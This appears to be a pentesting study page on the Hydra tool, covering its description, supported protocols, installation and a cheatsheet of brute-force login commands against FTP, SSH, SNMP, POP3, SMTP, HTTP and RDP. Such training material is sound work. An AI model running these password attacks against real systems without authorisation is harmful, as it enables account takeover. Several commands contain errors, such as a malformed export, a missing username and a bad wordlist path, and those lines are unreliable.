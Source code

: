```yaml
---
description: https://www.kali.org/tools/hydra/ https://tryhackme.com/room/hydra
---
```


# 🐉 Hydra

## What is Hydra?

Hydra is a popular open-source password cracking tool that can be used to perform brute-force attacks on login credentials of various network protocols, including FTP, HTTP, SSH, Telnet, and others. It uses different attack methods, including dictionary attacks, brute-force attacks, and hybrid attacks, to guess passwords and gain unauthorized access to a system.

Hydra can be used to test the strength of passwords used in network systems and identify potential vulnerabilities that may be exploited by attackers. It is often used by security professionals, network administrators, and penetration testers as a tool to assess the security of their systems and identify weaknesses that need to be addressed.

According to its [official repository](https://github.com/vanhauser-thc/thc-hydra), Hydra supports, i.e., has the ability to brute force the following protocols: “Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP, HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MEMCACHED, MONGODB, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, POP3, POSTGRES, Radmin, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, TeamSpeak (TS2), Telnet, VMware-Auth, VNC and XMPP.”

## Installing Hydra

If you prefer to use the Kali machine, Hydra also comes pre-installed, as is the case with all Kali distributions.

However, you can check its official repositories if you prefer to use another Linux distribution. For instance, you can install Hydra on an Ubuntu or Fedora system by executing `apt install hydra` or `dnf install hydra`. Furthermore, you can download it from its official [THC-Hydra repository](https://github.com/vanhauser-thc/thc-hydra).

## Cheatsheet

The following table uses the $ip variable which can be set with the following command:

`export ip 10.10.10.2`

| Command                                                                                                                                      | Description                                                               |
| -------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------- |
| hydra -L /usr/share/wordlists/metasploit/unix\_users.txt -P /usr/share/wordlists/metasploit/unix\_passwords.txt 10.2.26.221 ftp              | Hydra FTP unknown user and psw (metasploit or rockyou user/password list) |
| hydra -P password-file.txt -v $ip snmp                                                                                                       | Hydra brute force against SNMP                                            |
| hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp                                                                          | Hydra FTP known user and rockyou password list                            |
| hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh                                                                                 | Hydra SSH using list of users and passwords                               |
| hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh                                                                                            | Hydra SSH using a known password and a username list                      |
| hydra $ip -s 22 ssh -l -P big\_wordlist.txt                                                                                                  | Hydra SSH Against Known username on port 22                               |
| hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V                                                                             | Hydra POP3 Brute Force                                                    |
| hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V                                                                                            | Hydra SMTP Brute Force                                                    |
| hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin                                                                                    | Hydra attack http get 401 login with a dictionary                         |
| hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip                                                              | Hydra attack Windows Remote Desktop with rockyou                          |